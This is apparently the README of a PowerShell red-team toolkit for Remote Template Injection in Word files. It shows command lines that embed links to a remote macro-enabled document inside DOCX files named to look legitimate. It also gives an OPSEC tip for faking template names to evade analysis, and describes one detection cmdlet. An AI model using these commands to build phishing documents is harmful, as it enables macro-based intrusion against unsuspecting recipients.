 # RTI-Toolkit

Remote Template Injection Toolkit

## Description

RTI-Toolkit is an open-source PowerShell toolkit for Remote Template Injection attack. This toolkit includes a PowerShell script named `PS-Templator.ps1` which can be used from both an attacking and defensive perspective.

The following tables presents the main modules (cmdlets) of `PS-Templator.ps1`:

| Cmdlet | Description | Prespective |
| -------|:-----------:|:-----------:|
| [Invoke-Template](#invoke-template) | Implements remote template links within default Office Word templates  | attacking |
| [Invoke-Regular](#invoke-regular) | Implements remote template links within regular Office Word documents without template | attacking |
| [Invoke-Identify](#invoke-identify) | Indentifies remote template links within Office Word docx documents with/without template | defensive |
| Invoke-Type | | Misc |

⚠️ `PS-Templator.ps1` supports only DOCX files.

## Version

### 1.0.0

## License

This tool is licensed under the [![License: MIT](https://img.shields.io/badge/MIT-License-yellow.svg)](LICENSE).

## Table of Contents
- [RTI-Toolkit](#rti-toolkit)
  - [Description](#description)
  - [Version](#version)
  - [License](#license)
  - [Table of Contents](#table-of-contents)
  - [Remote Template Injection (RTI)](#remote-template-injection-rti)
  - [Installation](#installation)
  - [Cmdlets](#cmdlets)
    - [Invoke-Template](#invoke-template)
      - [Invoke-Template Example](#invoke-template-example)
    - [Invoke-Regular](#invoke-regular)
      - [Invoke-Regular Example](#invoke-regular-example)
      - [Invoke-Regular Example 2](#invoke-regular-example-2)
    - [Invoke-Identify](#invoke-identify)
      - [Invoke-Identify Example](#invoke-identify-example)
  - [References](#references)

## Remote Template Injection (RTI)

Remote Template Injection (RTI) in the context of Microsoft Office refers to a specific type of security vulnerability that can be exploited through malicious templates in Office documents (e.g., Word, Excel, PowerPoint).

For example, in a DOCX file, the content is stored in XML format within the archive, and some of these XML files may reference external resources or templates. Attackers can indeed manipulate these XML files to insert malicious links or content that can potentially exploit vulnerabilities or deceive users. 

This is a Macro-Based attack.

## Installation

To load `PS-Templator.ps1` as a module into memory, run the following command:
```
Import-Module .\PS-Templator.ps1
```

:information_source: `PS-Templator.ps1` works without the necessity of installing any additional dependencies.<br /><br />
:information_source: `PS-Templator.ps1` works as PowerShell module.

## Cmdlets

### Invoke-Template

`Invoke-Template` is a cmdlet that implements remote template links within default Office Word templates.

#### Invoke-Template Example

Assuming that you have a default Word template, one like them:

![All Words Templates](/Pictures/All-Word-Templates.png)

Saved as, for example, 'Name.docx':

![Default Word Template Document](/Pictures/Default-Word-Template.png)

If you use `Invoke-Template` cmdlet you can insert a malicious link within this docx:

```
Invoke-Template -InputDoc Name.docx -Link "https://192.168.1.3:8080/Doc1.docm" -Output C:\Users\User\Desktop\LegitDocument.docx
```

Outcome:

![Invoke-Template-1](/Pictures/Invoke-Template-1.png)

As you can see, the Invoke-Template module keeps a backup of the original document and provides the full path to the malicious document.

From debugging prespective, if you connvert the malicious docx to zip archive and go into /word/_rels/settings.xml.rels, you can see the malicious link:

![Invoke-Template-Debug](/Pictures/Invoke-Template-Debug.png)

### Invoke-Regular

`Invoke-Regular` is a cmdlet that implements remote template links within default Office Word documents without templates.

#### Invoke-Regular Example

Assuming that you have a default Word document without a template, like this:

![Blank Document](/Pictures/Blank-Document.png)

Saved as, for example, 'Doc1.docx':

![Word Document](/Pictures/Word-Document.png)

If you use `Invoke-Regular` cmdlet you can insert a malicious link within this docx:

```
Invoke-Regular -InputDoc C:\Users\User\Desktop\Doc1.docx -Link "http://192.168.1.3:8080/Doc1.docm" -Output Nikos2.docx
```

Outcome:

![Invoke-Regular-1](/Pictures/Invoke-Regular-1.png)

As you can see, the Invoke-Regular module keeps a backup of the original document and provides the full path to the malicious document.

From debugging prespective, if you connvert the malicious docx to zip archive and go into /word/_rels/settings.xml.rels, you can see the malicious link:

![Invoke-Regular-Debug-1](/Pictures/Invoke-Regular-Debug-1.png)

#### Invoke-Regular Example 2

From an OPSEC perspective, you can use `-TemplateName` in conjunction with the `Invoke-Regular` module. This will make your malicious document appear more legitimate if someone try to analyze it.

Here is an example:

```
Invoke-Regular -InputDoc C:\Users\User\Desktop\Doc1.docx -Link "http://192.168.1.3:8080/Doc1.docm" -Output Legittemplate.dotx
```

Outcome:

![Invoke-Regular-Example-2](/Pictures/Invoke-Regular-Example2.png)

From debugging prespective, if you connvert the malicious docx to zip archive and go into /docProps/app.xml, you can see the fake template name:

![Invoke-Regular-Fake-Template-Name](/Pictures/Invoke-Regular-Fake-Template-Name.png)

### Invoke-Identify

`Invoke-identify` is a cmdlet that indentifies remote template links within Office Word docx documents with/without template.

#### Invoke-Identify Example

## References
- [ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
- [dmcxblue.gitbook.io](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/defense-evasion/t1221-template-injection)
- [john-woodman.com](https://john-woodman.com/research/vba-macro-remote-template-injection/)
- [remoteInjector GitHub John Woodman](https://github.com/JohnWoodman/remoteInjector)
- [Invoke-Templator GitHub Outflanknl](https://github.com/outflanknl/Invoke-Templator)
- [attack.mitre.org](https://attack.mitre.org/techniques/T1221/)